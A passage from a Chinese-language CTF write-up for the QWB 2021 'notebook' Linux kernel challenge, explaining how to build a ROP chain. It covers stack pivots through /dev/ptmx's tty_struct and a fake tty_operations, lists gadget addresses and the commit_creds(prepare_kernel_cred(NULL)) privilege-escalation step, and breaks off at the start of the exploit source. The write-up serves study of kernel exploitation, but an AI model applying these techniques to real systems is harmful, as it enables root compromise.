 # Step 15: exp编写——构造ROP链
在调用/dev/ptmx的write函数时，rdi指向tty_struct结构体本身，因此可以利用这种性质获取到tty_struct结构体的地址，并将rsp赋值为这个地址。我们需要找的是能够将rdi中的内容拷贝到rsp中的gadget。正好有这个gadget：

```
root@ubuntu:~/Desktop/pwnfile/QWB/QWB-2021/notebook/附件# cat gadgets.txt | grep 'push rdi ; pop rsp'
0xffffffff812351be : push rdi ; pop rsp ; jmp 0xffffffff8123519f
0xffffffff81238d50 : push rdi ; pop rsp ; pop rbp ; add rax, rdx ; ret
0xffffffff8143f4e1 : push rdi ; pop rsp ; pop rbp ; or eax, edx ; ret
```

这样我们就可以第一次栈迁移到tty_struct。

然后，我们在tty_struct中再构造一个简短的gadget。因为tty_struct对于/dev/ptmx文件操作至关重要，对于其中的字段我们能修改地越少越好。因此我们还需要第二次栈迁移。这第二次栈迁移我们选择迁移到假的tty_operations中，这个tty_operations也就是进行第一次栈迁移时使用的假的tty_operations，其中写有构造好的write函数，也就是用于第一次栈迁移到tty_struct的gadget。

这里我们使用下面的gadget来进行构造：

```
0xffffffff81002141 : pop rbx ; pop rbp ; ret
0xffffffff8107875c : mov rsp, rbp ; pop rbp ; ret
```

我们在tty_struct[1]的位置写入第一个gadget，这样可以将假tty_operations（位于tty_struct[3]）地址拷贝到rbp中，然后在tty_struct[4]写入第二个gadget栈迁移到假tty_operations中。

由于tty_operations中需要有write函数指针指向第一次栈迁移gadget，为了避免覆盖，我们进行第三次栈迁移（或者使用诸如``add rsp, 0x10``这样的指令跳过）。

然后在第三次栈迁移后，我们终于可以相对自由地构造自己的rop链了。接下来就是常规的构造内核rop链过程：执行commit_creds(prepare_kernel_cred(NULL))、返回到用户态。注意这里含的``mov rdi, rax``的gadget不好找，在ROPgadget中没有这种gadget，但是通过objdump还是可以找到：

```asm
ffffffff81045833:	48 89 c7             	mov    %rax,%rdi
ffffffff81045836:	31 c0                	xor    %eax,%eax
ffffffff81045838:	48 81 ff 00 00 00 09 	cmp    $0x9000000,%rdi
ffffffff8104583f:	74 02                	je     ffffffff81045843 <lmce_supported+0x33>
ffffffff81045841:	5d                   	pop    %rbp
ffffffff81045842:	c3                   	retq
```
另外在swapgs_restore_regs_and_return_to_usermode函数中，前面的一大堆pop我们不需要，因此可以直接跳过。

![](https://img-blog.csdnimg.cn/1965b5316f814b609d992284de8de92f.png)

![](https://img-blog.csdnimg.cn/c0f4594bb21e4d34a5411c6d7aaa5589.png)

exp:
```c
//
// Created by root on 22-7-28.
//
#include <poll.h>
#include <errno.h>
#include <fcntl.h>
#include <stdio.h>
#include <signal.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <pthread.h>
#include <stdbool.h>
#include <sys/mman.h>
#include <semaphore.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/syscall.h>
#include <linux/userfaultfd.h>

```
